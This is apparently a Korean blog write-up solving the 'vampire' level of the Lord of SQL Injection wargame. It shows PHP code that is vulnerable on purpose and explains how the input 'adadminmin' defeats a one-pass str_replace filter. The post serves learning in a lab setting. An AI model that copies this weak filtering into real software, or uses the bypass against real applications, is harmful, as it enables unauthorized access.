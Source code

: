 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - vampire 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제도 역시 간단하게 풀 수 있었다.  

일단 소스코드가 짧으니 문제가 더 간단하게 느껴지는 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_vampire where id=''
-------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```

처음에 문제를 보고 `troll` 문제랑 같은 문제인 줄 알았다.  

그런데 이번 문제에서는 `ereg()` 함수가 사라지고 `strtolower()`과 `str_replace()` 함수가 생겼다.  

함수 이름에서도 알 수 있다시피 `strtolower()` 함수는 문자열의 대문자를 소문자로 바꾸어주는 함수이고, `str_replace()` 함수는 특정 문자열을 내가 지정한 문자열로 바꾸어 주는 함수이다.  

문제에서는 `GET` 방식으로 받아 온 값에서 `admin`이라는 문자를 `공백`으로 바꾸어 준다.  

그런데 이 `str_replace()` 함수에는 한가지 단점(?)이 있는데, 전체 문자열 전체를 한번만 검사하고 재검사는 하지 않는다는 것이다.  

만약에 `str_replace("admin", "", $var)`라고 구현한다면 아래와 같이 문자열이 있을 경우 결과는 다음과 같다.  

```php
# before

$var = "admin phpmyadmin administrator."

#after

$var = " phpmy istrator."
```

그런데 만약 `adadminmin` 라는 문자열이 있다면 가운데의 `admin`만 필터링 되어 사라지고 앞의 `ad`와 뒤의 `min`이 합쳐져 다시 `admin`이라는 단어를 만들 수 있게 된다.  

역시나 주소창에 아래처럼 입력했더니 문제를 풀 수 있었다.  

```
?id=adadminmin
```

```php
--------------------------------------------------------
query : select id from prob_vampire where id='admin'
--------------------------------------------------------

VAMPIRE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```

`VAMPIRE Clear!!`